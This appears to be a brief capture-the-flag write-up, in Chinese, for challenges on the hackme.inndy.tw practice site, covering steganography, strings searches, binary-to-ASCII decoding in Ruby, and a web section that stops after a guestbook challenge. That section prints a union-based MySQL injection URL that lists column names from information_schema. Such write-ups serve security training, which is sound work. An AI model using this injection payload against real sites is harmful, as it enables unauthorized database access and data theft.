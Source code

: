 # WriteUp

## Misc

### flag

trivial

### corgi can fly

直接用stegsolver開

然後可以發現裡頭藏QR code

解開就是FLAG

### television

直接`strings`就能看到FLAG

### where is flag

用正規表達式`FLAG{[a-zA-Z0-9]*}`搜尋

### pusheen.txt

裡面就是一串黑白pusheen的圖片

白的當0，黑的當1，還原回去ascii，就是FLAG

```ruby
data='010001100100110001000001010001110111101101010000011101010111001101101000011001010110010101101110001000000100111101001001010011110100111101001111010010010100100101001111010011110100100101001111010011110100100101001001010011110100111101001111010010010100111101001111010011110100111101001111010010010100111101001001010011110100111101001111010010010100100101001001001000000100001101110101011101000110010101111101'
puts data.scan(/[01]{8}/).map { |e| e.to_i 2 }.inject '', &:concat
```

## Web

### hide and seek

FLAG在最底下，字體顏色是白色

### guestbook

union based mysql injection

爆欄位名：

`https://hackme.inndy.tw/gb/?mod=read&id=1%20and%201=2%20union%20select%201,2,3,group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=%27flag%27`
